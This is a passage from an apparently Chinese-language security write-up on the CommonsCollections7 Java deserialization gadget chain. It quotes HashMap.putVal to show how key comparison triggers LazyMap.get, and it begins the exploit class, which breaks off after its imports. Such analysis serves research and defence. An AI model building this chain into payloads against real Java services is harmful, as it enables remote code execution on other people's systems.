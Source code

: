 可以看到这个方法比较两个 Map 的大小, 并对比所有 key, value 都相等. 在其中使用了 get 方法, 触发了 Lazy.get.
在 ysoseiral 中使用的是 Hashtable 类, 实际上 HashMap 也是能够触发的.

```java
final V putVal(int hash, K key, V value, boolean onlyIfAbsent,
                   boolean evict) {
        Node<K,V>[] tab; Node<K,V> p; int n, i;
    if ((tab = table) == null || (n = tab.length) == 0)
        n = (tab = resize()).length;
    if ((p = tab[i = (n - 1) & hash]) == null)
        tab[i] = newNode(hash, key, value, null);
    else {
        Node<K,V> e; K k;
        if (p.hash == hash &&
            ((k = p.key) == key || (key != null && key.equals(k))))  // <-- 这里进入 AbstractMap.equals
            e = p;
        else if (p instanceof TreeNode)
            e = ((TreeNode<K,V>)p).putTreeVal(this, tab, hash, key, value);
        else {
            for (int binCount = 0; ; ++binCount) {
                if ((e = p.next) == null) {
                    p.next = newNode(hash, key, value, null);
                    if (binCount >= TREEIFY_THRESHOLD - 1) // -1 for 1st
                        treeifyBin(tab, hash);
                    break;
                }
                if (e.hash == hash &&
                    ((k = e.key) == key || (key != null && key.equals(k))))
                    break;
                p = e;
            }
        }
        if (e != null) { // existing mapping for key
            V oldValue = e.value;
            if (!onlyIfAbsent || oldValue == null)
                e.value = value;
            afterNodeAccess(e);
            return oldValue;
        }
    }
    ++modCount;
    if (++size > threshold)
        resize();
    afterNodeInsertion(evict);
    return null;
}
```

最后 exp 如下:
```java
package demo.rmb122;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.io.FileOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;

public class CommonsCollections7 {
    public static void main(String[] args) throws Exception {
```